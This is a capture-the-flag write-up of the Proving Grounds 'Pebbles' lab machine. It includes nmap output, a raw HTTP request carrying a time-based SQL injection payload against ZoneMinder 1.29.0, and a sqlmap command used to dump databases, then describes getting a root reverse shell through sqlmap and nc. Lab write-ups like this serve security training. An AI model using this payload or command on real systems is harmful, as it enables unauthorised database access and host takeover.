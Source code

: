 ```yaml
---
title: "Proving grounds Practice: Pebbles"
layout: post
date: 2023-08-18 06:00
categories: writeup
---
```


Proving grounds Practice - Pebbles CTF writeup.

## Nmap

```sh
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aacf5a9347180e7f3d6da5aff86aa51e (RSA)
|   256 c7636c8ab5a76f05bfd0e390b5b89658 (ECDSA)
|_  256 93b26a1163861b5ef5895852897ff342 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Pebbles
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomcat
|_http-favicon: Apache Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Pebbles/dir.png)

**ZoneMinder v1.29.0**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/zm.png)

Zoneminder v1.29.0 is vulnerable to SQL Injection vulnerability.

**Searchsploit**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/searchsploit.png)

## Construct and Exploit SQL Injection vulnerability

### Request

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.210.52
Content-Length: 112
Accept: application/json
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.210.52
Referer: http://192.168.210.52/zm/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=e6s5540cs098ev3kra5sksjme6
Connection: close

view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

### Response

![img](/assets/images/CTF/Proving_Grounds/Pebbles/response.png)

The vulnerability says the `limit` parameter is vulnerable and automate the exploit using sqlmap.

```sh
sqlmap -u http://192.168.210.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=1" -p limit --batch --dbs --risk 3 --level 4
```

![img](/assets/images/CTF/Proving_Grounds/Pebbles/db.png)

**Obtain reverse shell via sqlmap**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell.png)

**Transfer nc and obtain reverse shell**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell2.png)

**Root Obtained**

Use PORT `3305` to get reverse connection sucessfully. Other ports are not allowed in the system.

![img](/assets/images/CTF/Proving_Grounds/Pebbles/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
